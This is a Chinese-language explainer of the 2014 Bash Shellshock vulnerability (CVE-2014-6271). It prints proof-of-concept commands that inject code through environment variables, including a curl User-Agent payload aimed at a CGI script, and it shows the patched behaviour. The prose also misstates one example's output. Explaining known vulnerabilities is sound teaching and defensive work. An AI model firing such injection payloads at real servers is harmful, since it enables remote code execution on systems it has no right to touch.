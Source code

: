 ```yaml
---
title: Shellshock
---
```


### 特性

Bash 有一项特性，可以用环境变量的形式定义函数，然后在一个新 shell 启动的时候，便可以执行这个函数：

	# on gentoo, affected version
	$ bash --version
	GNU bash, version 4.2.45(1)-release (i686-pc-linux-gnu)
	$ env HELLO="() { echo 'hello'; }" bash -c HELLO                   
	hello

这本来就很危险，远在 Shellshock 漏洞被发现之前，就有人担心使用 Bash 的自动导入函数功能会导致系统中那些不需要使用绝对路径来访问的标准程序被覆盖：

	# on gentoo, affected version
	$ env ls="() { echo 'Game over'; }" bash -c ls

### 漏洞

这里先不论该 Bash 特性的好坏，不过这次发现的 CVE-2014-6271 毫无疑问是一个漏洞。执行以下代码：

	# on gentoo, affected version
	$ env CVE_2014_6271="() { echo 'Hello';}; echo 'Goodbye'" bash -c \
	CVE_2014_6271
	Goodbye
	Hello

你会发现运行结果除了打印了“hello”，还打印了“world”。问题出在自动导入函数的解析器越过了函数定义的结尾，接着执行后面的代码——并且由于每一个新的 Bash 启动时都会触发这个漏洞，相当于任意代码都能被执行了。

当我们在 Apache 服务器中使用`mod_cgi`（不包括`mod_php`或`mod_python`）运行脚本的时候，数据是通过环境变量来传递的，这可以算是互联网领域最古老的一些技术了。其他一些客户端也会受到影响——比如 Linux 的 DHCP 客户端——它大量运用 Bash 脚本来使修改生效，这也使黑客能通过在 DHCP 数据包中加入恶意数据来达到攻击的目的。

鉴于 Bash 是大多数 Linux 系统上默认的 shell，这个漏洞就意味着，把有害数据编入环境变量，传到服务器端，触发服务器运行脚本，就完成了攻击。举个例子，HTTP  协议的头 User-Agent 通常是通过环境变量`HTTP_USER_AGENT`来传递的，这意味使用以下命令就可以利用这个漏洞了：

	$ curl -A "() { :; }; echo 'Game Over'}" \
	http://example.com/some-cgi/script.cgi

这条命令是指以`() { :; }; echo 'Game Over'}`为 User-agent 去下载那个脚本。而这里的`{ :; }`是什么意思呢？这可能是 Bash 里定义一个函数可能有的最简单的写法了。单单写一个`{ }`是有语法错误的，而如果要把一个函数定义在一行里，必须在其后加上`;`。

### 修复

针对此问题打了补丁的 Shell 似乎是直接关闭了通过环境变量导入函数的功能。以下测试在 Ubuntu Server 14.04 进行：

	# on ubuntu, patched version
	$ bash --version
	GNU bash, version 4.3.11(1)-release (x86_64-pc-linux-gnu)
	$ env HELLO="() { echo 'hello'; }" bash -c HELLO                   
	bash: HELLO: command not found

	# on ubuntu, patched version
	$ env CVE_2014_6271="() { echo 'Hello';}; echo 'Goodbye'" bash -c \
	CVE_2014_6271
	bash: CVE_2014_6271: command not found

reference: http://www.infoq.com/cn/news/2014/09/shellshock
